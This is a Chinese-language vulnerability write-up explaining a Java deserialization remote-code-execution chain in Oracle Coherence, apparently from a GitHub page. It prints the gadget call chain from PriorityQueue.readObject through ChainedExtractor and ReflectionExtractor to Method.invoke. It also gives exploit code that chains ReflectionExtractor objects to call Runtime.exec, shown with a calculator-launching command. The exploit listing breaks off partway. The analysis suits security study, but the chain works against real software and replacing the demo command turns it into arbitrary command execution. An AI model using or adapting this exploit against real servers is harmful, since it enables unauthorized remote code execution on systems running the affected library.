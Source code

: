 ​		方法中最开始是得到所有的`Extractors`，然后迭代循环调用数组元素的`extract()`。

​		自此可以提前构造`ReflectionExtractor`对象，然后实现`RCE`，主要是利用下面两个性质：

- 通过调用 `runtime.exe()`执行任意命令。
	
- 通过调用 `Method.invoke()`任意调用方法。

  下面是构造的三个`ReflectionExtractor`对象：

```java
ReflectionExtractor reflectionExtractor1 = new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[]{}});
        ReflectionExtractor reflectionExtractor2 = new ReflectionExtractor("invoke", new Object[]{null, new Object[]{}});
        ReflectionExtractor reflectionExtractor3 = new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash", "-c", "gnome-calculator"}}); // 打开计算器
        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                reflectionExtractor1,
                reflectionExtractor2,
                reflectionExtractor3,
        };
```

​		将它们放入`ValueExtractor`数组中，传入`ChainedExtractor`中作为参数。上一个的结果作为下一个调用的对象。具体执行如下：

```java
1、Method getRuntime = Runtime.class.getMethod("getRuntime", new Class[]{});
2、Object invoke = getRuntime.invoke(null, new Object[]{});
3、invoke.exec("/bin/bash -c gnome-calculator"); // 执行这一步就是打开计算器
```
### 调用链

结合上面的描述，构造服务器端反序列化引发的调用链如下：

```java
java.util.PriorityQueue.readObject()
  java.util.PriorityQueue.heapify()
  	java.util.PriorityQueue.siftDown()
  		java.util.PriorityQueue.siftDownUsingComparator()
  			com.tangosol.util.comparator.ExtractorComparator.compare()
  				com.tangosol.util.extractor.ChainedExtractor.extract()
  					com.tangosol.util.extractor.ReflectionExtractor.extract()
  						java.lang.reflect.Method.invoke()
```

最后的`invoke()`就是可以调用任意方法区执行任意命令。

### 漏洞利用的代码

下面是漏洞利用的代码：

```java
	public static void main(String[] args) throws Exception {
	
        ReflectionExtractor reflectionExtractor1 = new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[]{}});
        ReflectionExtractor reflectionExtractor2 = new ReflectionExtractor("invoke", new Object[]{null, new Object[]{}});
        ReflectionExtractor reflectionExtractor3 = new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash", "-c", "gnome-calculator"}});

        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                reflectionExtractor1,
                reflectionExtractor2,
                reflectionExtractor3,
        }; //构造的调用链

```